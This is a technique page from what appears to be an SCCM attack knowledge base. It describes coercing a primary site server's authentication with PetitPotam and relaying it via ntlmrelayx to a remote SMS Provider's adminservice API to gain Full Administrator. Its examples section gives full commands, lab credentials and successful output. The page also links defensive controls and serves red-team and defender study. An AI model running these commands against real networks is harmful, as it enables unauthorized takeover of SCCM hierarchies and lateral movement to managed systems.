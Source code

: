 # Technique Name

## Code Name
- SITETAKEOVER02

## ATT&CK TTPs
- [T1078.002 - Valid Accounts](https://attack.mitre.org/techniques/T1078/002/)
- [T1187 - Forced Authentication](https://attack.mitre.org/techniques/T1187/)

## Required Privilege / Context
Valid domain credentials with network connectivity to the primary site server and SMS Provider.

## Summary

The SMS Provider is a SCCM site server role installed by default on the site server when configuring a primary site or central administration site. The role can optionally be installed on additional SCCM component servers for high availability configurations.  The SMS Provider is a Windows Management Instrumentation (WMI) provider that performs as an intermediary for accessing and modifying data stored in the site database. Access to the SMS Provider is controlled via membership of the the `SMS Admins` local security group on each site server. The site server computer account is a member of the `SMS Admins` security group on each SMS Provider in a site by default.
The SMS Provider also provides access to the site database via the administration service (adminservice) REST API and uses Microsoft Negotiate for authentication. In default configurations, the adminservice is vulnerable to NTLM relay attacks. 

## Impact

This technique may allow an attacker to relay a primary site server machine account to a remote SMS Provider and elevate their privileges to "Full Administrator" for the SCCM Hierarchy. If successful, this technique enables lateral movement to all SCCM clients and/or sensitive systems.

## Examples
- Use SCCMHutner to profile SCCM component server roles
- Use PetitPotam to coerce authentication from primary site server
- Use NTLMrelayx to relay credentials to remote SMS Provider

### SCCMHunter
```
[02:00:25 PM] INFO     [+] Finished profiling all discovered computers.                                   
[02:00:25 PM] INFO     +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+
                       | Hostname                | SiteCode   | SigningStatus   | SiteServer   | ManagementPoint   | DistributionPoint   | SMSProvider   | WSUS   | MSSQL   |
                       +=========================+============+=================+==============+===================+=====================+===============+========+=========+
                       | provider.internal.lab   | None       | False           | False        | False             | False               | True          | False  | False   |
                       +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+
                       | sccm.internal.lab       | LAB        | False           | True         | True              | False               | True          | False  | False   |
                       +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+       
```

### PetitPotam

```
┌──(root㉿DEKSTOP-2QO0YEUW)-[/opt/PetitPotam]
└─# python3 PetitPotam.py -u lowpriv -p P@ssw0rd 10.10.100.136 sccm.internal.lab

                           
              ___            _        _      _        ___            _                     
             | _ \   ___    | |_     (_)    | |_     | _ \   ___    | |_    __ _    _ __   
             |  _/  / -_)   |  _|    | |    |  _|    |  _/  / _ \   |  _|  / _` |  | '  \  
            _|_|_   \___|   _\__|   _|_|_   _\__|   _|_|_   \___/   _\__|  \__,_|  |_|_|_| 
          _| """ |_|"""""|_|"""""|_|"""""|_|"""""|_| """ |_|"""""|_|"""""|_|"""""|_|"""""| 
          "`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-' 
                                         
              PoC to elicit machine account authentication via some MS-EFSRPC functions
                                      by topotam (@topotam77)
      
                     Inspired by @tifkin_ & @elad_shamir previous work on MS-RPRN



Trying pipe lsarpc
[-] Connecting to ncacn_np:10.10.100.121[\PIPE\lsarpc]
[+] Connected!
[+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
[+] Successfully bound!
[-] Sending EfsRpcOpenFileRaw!
[-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!
[+] OK! Using unpatched function!
[-] Sending EfsRpcEncryptFileSrv!
[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!

```

### NTLMRelayx

```
┌──(adminservice)─(root㉿DEKSTOP-2QO0YEUW)-[/opt/adminservice/examples]
└─# python3 ntlmrelayx.py --adminservice --logonname "lab\specter" --displayname "lab\secter" --objectsid "S-1-5-21-2391214593-4168590120-2599633397-1133" -smb2support -t https://provider.internal.lab/AdminService/wmi/SMS_Admin
Impacket v0.10.1.dev1+20230802.213755.1cebdf31 - Copyright 2022 Fortra

[*] Protocol Client SMB loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
[*] SMBD-Thread-5 (process_request_thread): Received connection from 10.10.100.121, attacking target https://provider.internal.lab
[*] Exiting standard auth flow to add SCCM admin...
[*] Authenticating against https://provider.internal.lab as LAB/SCCM$
[*] Skipping user SCCM$ since attack was already performed
[*] Server returned code 201, attack successful

```


## Defensive IDs
- [PROTECT01](../../defense-techniques/PROTECT01/protect01-description.md)
- [PROTECT10](../../defense-techniques/PROTECT10/protect10-description.md)
- [DETECT01](../../defense-techniques/DETECT01/detect01-description.md)


## References
- Garrett Foster, Site Takeover via SCCM’s AdminService API, https://posts.specterops.io/site-takeover-via-sccms-adminservice-api-d932e22b2bf
- Microsoft, Plan for the SMS Provider, https://learn.microsoft.com/en-us/mem/configmgr/core/plan-design/hierarchy/plan-for-the-sms-provider
- Microsoft, What is the administration service in Configuration Manager?, https://learn.microsoft.com/en-us/mem/configmgr/develop/adminservice/overview